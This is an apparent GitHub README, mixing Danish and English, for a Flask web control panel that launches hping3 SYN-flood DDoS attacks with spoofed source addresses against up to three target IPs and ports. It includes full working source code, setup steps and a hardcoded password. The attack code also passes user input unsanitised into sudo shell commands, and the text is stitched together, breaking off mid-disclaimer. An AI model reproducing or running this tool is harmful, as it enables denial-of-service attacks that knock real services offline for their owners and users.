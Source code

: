 # ddos-use-kali-linux-on-wed-remote-access
# Flask DDoS Attack Control

This project provides a simple web interface to control a DDoS attack using `hping3` via a Flask application. Users can log in and start or stop an attack by specifying IP addresses, ports, and the duration of the attack.

## Prerequisites

Before running the project, ensure the following are installed on your machine:

- Python 3.x
- Flask (`pip install flask`)
- hping3 (needs to be run with root access)
- Multiprocessing and threading modules (which come with Python)

## Installation

Guide: Sådan får du Flask-appen op at køre

Denne guide viser dig, hvordan du opsætter Flask-appen og kører den på din maskine. Følg trinnene for at få Flask-serveren til at køre korrekt.
1. Installer de nødvendige afhængigheder

Først skal du sørge for, at du har Python og Flask installeret. Hvis du ikke har Flask installeret, kan du gøre det med følgende kommando:

pip install flask

2. Opret en Python-fil til Flask-appen

Opret en fil kaldet app.py på din server, hvor du vil køre Flask-appen.

nano app.py

Indsæt følgende kode i app.py:

from flask import Flask, request, render_template_string, jsonify, redirect, url_for, session
import subprocess
import threading
import time
import os
import multiprocessing

app = Flask(__name__)
app.secret_key = os.urandom(24)  # Hver gang serveren starter, får den en ny sessionnøgle

# HTML template
HTML_TEMPLATE = '''
<!DOCTYPE html>
<html lang="da">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Angrebsstyring</title>
    <script>
        function startAttack() {
            const ip1 = document.getElementById('ip1').value;
            const port1 = document.getElementById('port1').value;
            const ip2 = document.getElementById('ip2').value;
            const port2 = document.getElementById('port2').value;
            const ip3 = document.getElementById('ip3').value;
            const port3 = document.getElementById('port3').value;
            const duration = document.getElementById('duration').value;

            // Opret JSON-objekt med data
            const data = {
                ip1: ip1,
                port1: port1,
                ip2: ip2,
                port2: port2,
                ip3: ip3,
                port3: port3,
                duration: duration
            };

            fetch('/start_attack', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify(data)
            })
            .then(response => response.json())
            .then(data => {
                alert(data.message);
            })
            .catch(error => {
                alert('Fejl: ' + error);
            });
        }

        function stopAttack() {
            fetch('/stop_attack', {
                method: 'POST'
            })
            .then(response => response.json())
            .then(data => {
                alert(data.message);
            })
            .catch(error => {
                alert('Fejl: ' + error);
            });
        }
    </script>
</head>
<body>
    <h1>Start DDoS Angreb</h1>
    <label for="ip1">IP1:</label>
    <input type="text" id="ip1" placeholder="Angiv IP Adresse">
    <br><br>
    <label for="port1">Port1:</label>
    <input type="number" id="port1" placeholder="Angiv Port">
    <br><br>

    <label for="ip2">IP2:</label>
    <input type="text" id="ip2" placeholder="Angiv IP Adresse">
    <br><br>
    <label for="port2">Port2:</label>
    <input type="number" id="port2" placeholder="Angiv Port">
    <br><br>

    <label for="ip3">IP3:</label>
    <input type="text" id="ip3" placeholder="Angiv IP Adresse">
    <br><br>
    <label for="port3">Port3:</label>
    <input type="number" id="port3" placeholder="Angiv Port">
    <br><br>

    <label for="duration">Varighed (sekunder):</label>
    <input type="number" id="duration" placeholder="Varighed">
    <br><br>

    <button onclick="startAttack()">Start Angreb</button>
    <button onclick="stopAttack()">Stop Angreb</button>
</body>
</html>
'''

# HTML login template
LOGIN_TEMPLATE = '''
<!DOCTYPE html>
<html lang="da">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login</title>
</head>
<body>
    <h1>Login</h1>
    <form action="/login" method="POST">
        <label for="password">Adgangskode:</label>
        <input type="password" id="password" name="password" required>
        <br><br>
        <button type="submit">Log ind</button>
    </form>
</body>
</html>
'''

# Definer din adgangskode her
PASSWORD = "jrd772zac"

# HTML login route
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        password = request.form.get('password')
        if password == PASSWORD:
            session['logged_in'] = True  # Angiv at brugeren er logget ind
            return redirect(url_for('index'))
        else:
            return "Forkert adgangskode", 403
    return render_template_string(LOGIN_TEMPLATE)

# Funktion til at køre hping3-angrebet med alle CPU-kerner
def start_attack(ip, port, duration):
    # Hent antallet af CPU-kerner
    cpu_cores = multiprocessing.cpu_count()

    # Kommandoen til at bruge alle CPU-kerner
    for _ in range(cpu_cores):
        command = f"sudo hping3 --flood --rand-source -S -p {port} {ip} &"
        subprocess.run(command, shell=True, executable="/bin/bash")

    if duration > 0:
        time.sleep(duration)
        stop_attack_command = "sudo killall hping3"
        subprocess.run(stop_attack_command, shell=True, executable="/bin/bash")

@app.route('/')
def index():
    if not session.get('logged_in'):  # Tjek om brugeren er logget ind
        return redirect(url_for('login'))  # Hvis ikke, send til login-siden
    return render_template_string(HTML_TEMPLATE)

@app.route('/start_attack', methods=['POST'])
def start_attack_route():
    # Modtag data som JSON
    data = request.json
    ip1 = data.get('ip1')
    port1 = data.get('port1')
    ip2 = data.get('ip2')
    port2 = data.get('port2')
    ip3 = data.get('ip3')
    port3 = data.get('port3')
    duration = int(data.get('duration', 0))

    # Tjek, at ip1 og port1 er angivet
    if not ip1 or not port1:
        return jsonify({"status": "error", "message": "IP og port 1 skal angives!"}), 400

    # Start angrebet i separate tråde for hver IP og port
    if ip1 and port1:
        threading.Thread(target=start_attack, args=(ip1, port1, duration)).start()
    if ip2 and port2:
        threading.Thread(target=start_attack, args=(ip2, port2, duration)).start()
    if ip3 and port3:
        threading.Thread(target=start_attack, args=(ip3, port3, duration)).start()

    return jsonify({"status": "success", "message": "Angreb startet!"})

@app.route('/stop_attack', methods=['POST'])
def stop_attack_route():
    # Stop angrebet
    stop_attack_command = "sudo killall hping3"
    subprocess.run(stop_attack_command, shell=True, executable="/bin/bash")
    return jsonify({"status": "success", "message": "Angreb stoppet!"})

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)

3. Kør Flask-appen

Når du har oprettet og gemt app.py-filen, kan du køre Flask-appen med følgende kommando:

python app.py

Dette vil starte serveren på http://0.0.0.0:5000/. Du kan nu tilgå den via din webbrowser.
4. Login og brug af applikationen

    Gå til login-siden via http://localhost:5000/login.
    Brug den definerede adgangskode (jrd772zac) for at logge ind.
    Når du er logget ind, kan du tilgå hovedsiden, hvor du kan starte og stoppe DDoS-angrebet via inputfelterne.

Vigtig Bemærkning

Dette script er til læring og eksperimentering i kontrollerede miljøer. Misbrug af DDoS-angreb kan være ulovligt og kan medføre alvorlige konsekvenser. Sørg for, at

3. Make sure `hping3` is installed on your system:

    - On Ubuntu/Debian:

      ```bash
      sudo apt install hping3
      ```

4. Start the Flask application:

    ```bash
    python app.py
    ```

5. Open a browser and navigate to `http://localhost:5000` to access the control panel.

## Login

When you first visit the page, you will be prompted to log in with a password. The default password is:


## Using the Application

Once logged in, you can:

- Enter IP addresses and ports for three targets.
- Specify the duration of the attack in seconds.
- Start and stop the attack via the web interface.

